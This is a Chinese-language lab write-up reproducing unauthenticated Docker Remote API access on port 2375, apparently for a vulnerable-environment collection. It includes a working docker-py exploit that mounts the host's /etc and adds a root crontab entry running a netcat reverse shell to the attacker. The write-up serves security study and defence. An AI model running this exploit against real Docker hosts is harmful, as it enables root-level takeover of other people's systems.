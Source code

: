 # Docker Remote API 未授权访问导致远程代码执行

Docker是一个提供容器化软件打包和交付的平台即服务（PaaS）解决方案。Docker守护进程（dockerd）提供了一个REST API，允许远程管理Docker容器、镜像和其他资源。

当Docker守护进程被配置为监听网络端口（通常是TCP端口2375）且未启用适当的身份验证机制时，攻击者可以未经授权访问Docker API。利用此漏洞，攻击者可以在主机系统上创建、修改和执行容器，可能导致远程代码执行、数据窃取以及完全控制主机系统。

- <https://docs.docker.com/engine/security/protect-access/>
- <https://tttang.com/archive/357/>

## 环境搭建

执行以下命令启动存在漏洞的Docker环境：

```
docker compose build
docker compose up -d
```

环境启动后，Docker守护进程将在2375端口上监听，且不需要任何身份验证。

## 漏洞复现

这个漏洞可以使用Python的docker-py库进行利用。攻击方法是创建一个新容器并挂载主机的/etc目录，这样攻击者就能修改系统关键文件。在这个示例中，我们将通过添加一个恶意的crontab条目来创建反弹shell，以演示漏洞的危害。

首先，安装所需的Python库：

```
pip install docker
```

然后创建并运行以下Python脚本来利用漏洞：

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

这个脚本创建了一个容器，挂载主机的/etc目录，并向root用户的crontab添加一个反弹shell命令。在一分钟内，cron守护进程将执行该命令，建立一个反弹shell连接到攻击者的机器。

成功利用漏洞后，可以收到反弹shell连接：

![反弹Shell利用](1.png)

这个漏洞展示了正确保护Docker守护进程访问和为远程API端点实施身份验证机制的重要性。
